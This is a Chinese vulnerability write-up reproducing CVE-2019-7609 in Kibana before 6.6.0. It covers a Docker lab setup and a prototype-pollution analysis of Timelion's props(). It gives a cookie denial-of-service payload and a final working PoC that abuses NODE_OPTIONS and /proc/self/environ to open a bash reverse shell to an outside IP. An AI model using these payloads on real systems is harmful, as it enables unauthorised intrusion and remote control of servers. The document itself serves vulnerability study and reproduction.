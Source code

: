 （CVE-2019-7609）kibana \< 6.6.0 未授权远程代码命令执行
=======================================================

一、漏洞简介
------------

Kibana 是一款开源的数据分析和可视化平台，它是Elastic
Stack成员之一，设计用于和Elasticsearch协作。

二、漏洞影响
------------

kibana \< 6.6.0

三、复现过程
------------

#### 环境搭建

    docker pull docker.elastic.co/kibana/kibana:6.5.4 
    docker network create elastic 
    docker run --network=elastic --name=elasticsearch docker.elastic.co/elasticsearch/elasticsearch:6.5.4
    docker run -d --name kibana --net elastic -p 5601:5601 docker.elastic.co/kibana/kibana:6.5.4 
    docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' kibana

这样启动的kibana没法调试，可以自己改改镜像，在node启动命令里加个inspect参数：

    docker ps -a --no-trunc  # 找到启动脚本

    在node启动命令后加上--inspect=0.0.0.0:9229

    docker commit kibana kibana-debug  # 保存修改后的镜像
    docker rm -f kibana
    docker run --name kibana --net elastic -p 5601:5601 -p 9229:9229 kibana-debug  # 启动修改后的kibana容器

kibana控制台：<http://127.0.0.1:5601/> inspect调试器：chrome://inspect/

#### 漏洞分析

原型链污染点：props()函数可以给对象设置属性

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId27.png)

有了污染点，就可以思考怎么利用了。

最简单的利用，设置一个cookie就可以导致拒绝服务：

    .es(*).props(label.__proto__.cookie="aaa")

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId28.png)

要复原的话可以在inspect调试器里删掉原型对象的cookie属性：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId29.png)

DOS很好实现，怎么搞成RCE呢？根据经验，容易想到一些常见情形，如：

    if(obj.jsCode) eval(obj.jsCode) 这种白给的
    express ejs模版引擎中的动态函数调用

作者并没有找到明显的代码执行点，但是在瞎点到canvas的时候，他发现控制台暴了很多错误（这是inpector的输出，也就是说如果启docker的时候加了-d的话，可能就错过这个RCE了\...）。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId30.png)

作者据此得出结论：kibana在创建新进程
创建进程可就是个敏感的行为了，能不能污染命令/参数呢？
来动态看下进程创建的过程，

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId31.png)

首先调用normalizeSpawnArguments.apply()处理参数，

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId32.png)

跟进，

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId33.png)

这里实际是在处理child\_process.spawn(command\[, args\]\[,
options\])的第三个参数options。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId34.png)

这里面的有些参数是undefined的，只有声明了才会处理，也即是我们可以污染的。
作者利用的就是这个env参数，它以键值对的形式向子进程传递环境变量（我尝试了一些其它参数，没发现可利用的）。

能控制进程的环境变量了，有什么用呢？我们不知道子进程会对环境变量做些什么操作啊，这是容易被忽视的一个重点。
回想下控制台报的错：\"Starting inspector on 0.0.0.0:9229 failed: address
already in use\"。
这句话透露出的是：此时正在创建一个node命令进程，并且使用了\--inpect:0.0.0.0:9229参数。
这下目标就清晰了，我们能控制的node的环境变量。

在node中，有一个NODE\_OPTIONS变量，

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId35.png)

通过这个变量，可以覆盖node进程的参数。
也就是说，现在我们能控制node进程的参数了。这就很有用了，比如\--eval参数是可以直接执行代码的。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId36.png)

但是，NODE\_OPTIONS似乎考虑到了这种潜在的安全问题，它只能使用部分参数，向\--eval这种是用不了的。

不过作者找到了另一个参数\--require，

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId37.png)

这个有点像php里的auto\_prepend\_file，预加载一个文件。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId38.png)

现在我们可以看成有一个文件包含的洞了，怎么RCE呢？
通常，我们都会上传一个文件再包含，或者去包含web服务器日志/SSH日志。
作者这里利用的方法也十分巧妙，Linux下一切皆文件，我们已经能控制子进程的环境变量，也就是能控制/proc/self/environ这个文件，直接包含这个文件不就好了。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId39.png)

最后payload如下：

> 将POC里的反链IP地址换成自己的，然后在目标机器上的 `Timelion`
> 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：

    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.70.53.113/6666 0>&1\'");//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

然后自己机器开启监听，再点击 Canvas

